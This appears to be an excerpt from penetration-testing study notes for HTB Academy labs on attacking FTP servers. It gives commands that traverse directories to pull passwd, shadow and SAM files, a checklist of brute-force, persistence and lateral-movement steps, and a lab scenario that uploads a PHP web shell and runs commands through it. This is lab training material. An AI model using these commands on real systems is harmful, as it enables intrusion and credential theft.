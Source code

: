 ### Directory Traversal Attacks
```bash
# Test directory traversal
ftp> cd ../../../etc
ftp> get passwd
ftp> get shadow

# Windows traversal
ftp> cd ..\..\..\Windows\System32
ftp> get SAM
```

---

## 📋 FTP Attack Checklist

### Authentication Attacks
- [ ] **Anonymous authentication** - Default access testing
- [ ] **Brute force with Medusa** - Automated password attacks
- [ ] **Password spraying** - Single password, multiple users
- [ ] **Default credentials** - Common username/password combinations

### Exploitation Attacks
- [ ] **FTP bounce scanning** - Internal network reconnaissance
- [ ] **File upload testing** - Web shell and malware upload
- [ ] **Directory traversal** - File system exploration
- [ ] **Configuration exploitation** - Modify server settings

### Post-Exploitation
- [ ] **Sensitive file extraction** - Configuration, credential files
- [ ] **Persistence mechanisms** - SSH keys, cron jobs, web shells
- [ ] **Privilege escalation** - SUID binaries, configuration abuse
- [ ] **Lateral movement** - Use FTP server as pivot point

---

## 🎯 HTB Academy Lab Scenarios

### Scenario 1: Anonymous Access Exploitation
```bash
# Target has anonymous FTP with write access to web directory
ftp target_ip
# Username: anonymous, Password: anonymous

# Upload web shell to web-accessible directory
ftp> cd htdocs
ftp> put shell.php
ftp> quit

# Achieve remote code execution
curl "http://target_ip/shell.php?cmd=whoami"
```

